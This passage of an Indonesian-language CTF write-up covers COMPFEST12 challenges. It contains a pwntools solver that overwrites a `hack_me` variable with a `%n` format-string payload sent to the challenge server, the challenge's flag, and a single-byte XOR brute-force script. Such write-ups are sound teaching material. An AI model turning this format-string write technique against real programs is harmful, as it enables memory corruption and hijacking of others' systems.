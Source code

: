 Format string attack seperti pada soal sebelumnya, tetapi soal ini diberi address variable `hack_me` (seperti pada soal stack sebelum ini) untuk dioverwrite.

Berikut solvernya.

```py
#!/usr/bin/python

from pwn import *
import sys

def exploit(p):
    hack_me = int(p.recvuntil('\nOk').split()[-2], 16)
    info("hack_me address 0x%x" %hack_me)
    buf = p32(hack_me)
    buf += '%416x%9$n'
    p.sendline(buf)
    p.interactive()

if __name__ == '__main__':
    if len(sys.argv) > 1:
        p = remote('128.199.104.41', 42069)
    else:
        p = process('./format_harder')
    exploit(p)
```

Kenapa 416 ? setelah didebug, variable `hack_me` berisi nilai yang kita tulis + 4 (panjang alamat). Jadi harus dikurangi 4 , `( 420-4 = 416 )`

![FLAG](https://abdullahnz.github.io/assets/images/FLAG-8.png)

### FLAG

`COMPFEST12{Format_Stringing_to_win}`
<br/>
<br/>


# Cryptography

## 1. Single XOR Encryption [50pts]

Seperti judul soal yaitu XOR 1 Byte. Bruteforce kuncinya pada range 0-256 dan break ketika flag didapatkan.

```py
#!/usr/bin/python

cipher = open('soal').read().decode('hex')

for i in range(256):
    flag = ""
    for c in cipher:
        flag += chr(ord(c) ^ i)
    if 'COMPFEST' in flag:
        print i, flag
        break
```
